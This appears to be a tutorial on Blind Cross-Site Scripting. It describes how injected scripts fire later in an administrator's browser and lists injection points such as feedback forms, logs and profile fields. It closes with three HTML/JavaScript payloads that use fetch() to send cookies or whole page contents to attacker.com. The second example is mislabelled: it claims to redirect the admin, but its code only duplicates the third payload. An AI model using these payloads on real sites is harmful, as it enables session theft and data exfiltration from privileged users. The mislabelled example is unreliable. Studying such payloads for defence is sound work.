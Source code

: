 **Blind Cross-Site Scripting (Blind XSS)** is a type of **Cross-Site Scripting (XSS)** attack where the attacker does not immediately see the result of the injected malicious code. The payload is injected into a web application, but the attacker won't observe its execution or the impact directly. Instead, the attacker relies on the fact that their payload will execute when an administrator, other privileged user, or some internal system processes the injected data later.

This form of XSS is dangerous because it can impact users with higher privileges, such as administrators, and is more difficult to detect for the attacker.

---

### Types of Blind XSS

1. **Stored Blind XSS**  
    Similar to **Stored XSS**, the payload is injected into a server-side storage (e.g., database or logs). However, the payload doesn't execute until an administrator or another system processes or views the data, making it "blind" to the attacker until it’s triggered.
    
2. **Reflected Blind XSS**  
    The injected payload is not immediately executed in the page viewed by the attacker but will be reflected when a different user (like an admin) views a report, log, or panel. The attacker typically can't see the payload execution but relies on it being triggered by an admin's actions.
    

---

### Common Attack Vectors for Blind XSS

1. **Feedback Forms**  
    An attacker injects malicious scripts into a feedback form. The administrator may later view the feedback from the form, causing the payload to execute.
    
2. **Search Bars/Logs**  
    The attacker submits a payload in a search bar or via an API, and the server stores it in a log or search result. When the administrator later reviews this log, the payload is executed in their browser.
    
3. **Admin Panels**  
    Payloads can be injected into fields visible to an admin panel. The script runs when the admin checks logs, records, or user inputs.
    
4. **User Profile Fields**  
    Malicious code can be inserted in a profile field or similar user input. The injected script only executes when viewed by someone with admin rights or another high-privileged user.
    

---
### Example Payloads for Blind XSS

1. **Stealing Cookies:**
In this example, the attacker uses an image with an invalid source. When an admin views the page containing this payload, the `onerror` event triggers and sends the admin's cookies to the attacker's server.
```html
<img src="x" onerror="fetch('http://attacker.com/log?cookie=' + document.cookie);">
```

2. **Redirecting Admin to Malicious Website:**
In this example, the attacker sends a request with the admin's cookies and redirects them to a malicious website.
```html
<script>
fetch('http://attacker.com/exfiltrate', {
    method: 'POST',
    body: JSON.stringify({ data: document.documentElement.innerHTML }),
    headers: { 'Content-Type': 'application/json' }
});
</script>
```

3. **Exfiltrating Data (e.g., from a page or an endpoint):**
This payload sends the entire page content to a malicious server controlled by the attacker.
```html
<script>
fetch('http://attacker.com/exfiltrate', {
    method: 'POST',
    body: JSON.stringify({ data: document.documentElement.innerHTML }),
    headers: { 'Content-Type': 'application/json' }
});
</script>
```

